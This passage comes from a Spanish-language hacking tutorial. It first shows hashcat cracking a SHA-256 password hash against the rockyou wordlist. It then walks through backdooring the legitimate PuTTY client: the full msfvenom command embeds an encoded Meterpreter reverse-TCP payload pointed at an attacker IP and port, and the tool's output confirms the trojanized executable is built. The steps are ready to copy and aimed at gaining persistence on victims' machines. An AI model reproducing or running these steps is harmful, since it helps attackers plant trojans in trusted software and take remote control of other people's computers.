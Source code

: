 ```bash
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 15443.9 kH/s (2.68ms) @ Accel:1024 Loops:1 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4195254/14344384 (29.25%)
Rejected.........: 950/4195254 (0.02%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> roeiend
Hardware.Mon.#1..: Temp: 49c Util: 24% Core:1995MHz Mem:6000MHz Bus:16

Started: Wed Nov  6 13:59:32 2024
Stopped: Wed Nov  6 13:59:40 2024
```

Y para visualizar el resultado de forma mas clara agregar ` --show `:

```bash
❯ hashcat -a 0 -m 1400 -O hash.sha256 github/rockyou.txt --show
cc501eaf8615e4b572017196336c4dbaefd5ee8149e74b3195fb672b6dfbe163:juana
```

# 8. Backdoors en binarios
Esto consiste en ingresar un backdoor en el binario de un programa **legitimo** de modo que cada que este programa se ejecute nos devuelva una reverse shell, esta es una de las maneras de ganar persistencia en un equipo.
En este ejemplo utilizaremos msfvenom para generar nuestro backdoor y lo ingresaremos en un programa llamado PuTTY, el cual es un cliente para realizar conexiones remotas bastante utilzado.
Lo primero que tenemos que hacer es descargarnos el ejecutable de este cliente, podemos realizarlo mediante wget de esta forma:

```bash
❯ wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
```

 Ahora realizamos el backdoor de nuestro ejecutable mediante msfvenom de esta forma:
```bash 
❯ msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.75 lport=1234 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
/opt/metasploit/config/application.rb:1: warning: /usr/lib/ruby/3.3.0/fiddle.rb was loaded from the standard library, but will no longer be part of the default gems starting from Ruby 3.5.0.
You can add fiddle to your Gemfile or gemspec to silence this warning.
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 1889792 bytes
Saved as: puttyX.exe
```
